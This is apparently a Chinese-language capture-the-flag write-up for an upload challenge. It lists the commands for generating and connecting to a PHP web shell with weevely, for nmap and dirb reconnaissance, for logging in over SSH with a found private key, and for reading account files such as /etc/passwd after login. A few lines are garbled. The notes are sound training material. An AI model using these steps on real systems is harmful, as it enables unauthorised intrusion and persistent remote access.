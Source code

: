 # upload

> 题目：攻防世界

__0x00 审题__
题目没有太难，有一个上传的地方，上传一句话木马，就好了

__0x01 总结__

关于kali自带weevely的用法总览：

* weevely

```
weevely 是由python编写的，用于生成web shell，相当于Linux上的菜刀,但是只能进行php文件的编写
```

* 具体用法

```
[+] weevely 4.0.1
[!] Error: the following arguments are required: url, password

[+] Run terminal or command on the target
    weevely <URL> <password> [cmd]

[+] Recover an existing session
    weevely session <path> [cmd]

[+] Generate new agent
    weevely generate <password> <path>
```

1. 通过weevely得到一个websell

```
weevely generate <password> <.php>
```
2. 将shell传入网页目录

3. 连接网页

```
weevely <url> <.php> <password>
```

4. 官方help给了许多功能，能与mysql等窗口互通

* 关于信息探测

1. 探测靶场开放的服务及其端口

```
--nmap -sV IP 探测靶场开放的服务与服务版本
--nmap -A -v IP 探测靶场全部信息
--nmap -O IP 靶场操作系统类型与版本
```
2. 分析探测结果

观察存在的服务与他开放的端口 例如http,ssh

如果是http服务：

```
1. 直接搜索
2. 通过dirb检查服务隐藏文件
```
* 关于ssh协议

```
应用层上的基础安全协议：基于口令的安全验证（密钥）
```
密钥的利用：
```
chmod 600 id_rsa 修改权限为可读
ssh -i id_rsa 用户名@主机地址


3. 登录

```
1. 查看当前用户whoami
2. id 查看当前用户权限
3. 寻找根目录，cat flag
```
> 如果权限不够存在提权

```
查看所有用户：cat/etc/password
所有用户组：cat/etc/group
属于某些用户名的文件:find/ -user 用户名
```


